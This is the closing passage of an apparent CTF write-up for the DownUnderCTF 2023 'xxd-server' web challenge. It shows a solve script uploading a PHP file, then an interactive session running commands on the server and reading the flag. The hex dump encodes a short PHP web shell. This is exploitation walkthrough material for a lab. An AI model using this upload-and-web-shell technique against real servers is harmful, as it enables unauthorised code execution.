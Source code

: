 ```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/xxd-server)-[2023.09.03|20:24:10(HKT)]
└> python3 solve.py
[+] File uploaded! Path: /uploads/317317414ddf9917/payload.php
[*] Execute OS command in here... Type "exit" to quit:
> ls -lah /
[+] Command executed!! Response:
00000000: 3c3f 3d60 245f 4745 545b 315d 603b       total 68K
drwxr-xr-x   1 root root 4.0K Sep  3 09:43 .
drwxr-xr-x   1 root root 4.0K Sep  3 09:43 ..
lrwxrwxrwx   1 root root    7 Aug 14 00:00 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K Jul 14 16:00 boot
drwxr-xr-x   5 root root  360 Sep  3 09:43 dev
drwxr-xr-x   1 root root 4.0K Sep  3 09:43 etc
-rw-r--r--   1 root root   74 Aug 31 02:13 flag
drwxr-xr-x   2 root root 4.0K Jul 14 16:00 home
lrwxrwxrwx   1 root root    7 Aug 14 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Aug 14 00:00 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Aug 14 00:00 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Aug 14 00:00 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4.0K Aug 14 00:00 media
drwxr-xr-x   2 root root 4.0K Aug 14 00:00 mnt
drwxr-xr-x   2 root root 4.0K Aug 14 00:00 opt
dr-xr-xr-x 460 root root    0 Sep  3 09:43 proc
drwx------   1 root root 4.0K Aug 16 03:42 root
drwxr-xr-x   1 root root 4.0K Aug 16 02:16 run
lrwxrwxrwx   1 root root    8 Aug 14 00:00 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Aug 14 00:00 srv
dr-xr-xr-x  13 root root    0 Sep  3 09:42 sys
drwxrwxrwt   1 root root 4.0K Sep  3 12:24 tmp
drwxr-xr-x   1 root root 4.0K Aug 14 00:00 usr
drwxr-xr-x   1 root root 4.0K Aug 30 04:21 var
> cat /flag
[+] Command executed!! Response:
00000000: 3c3f 3d60 245f 4745 545b 315d 603b       DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
> ^C
[*] Bye!
```

- **Flag: `DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}`**

## Conclusion

What we've learned:

1. Exploiting file upload vulnerability with 16 characters chunk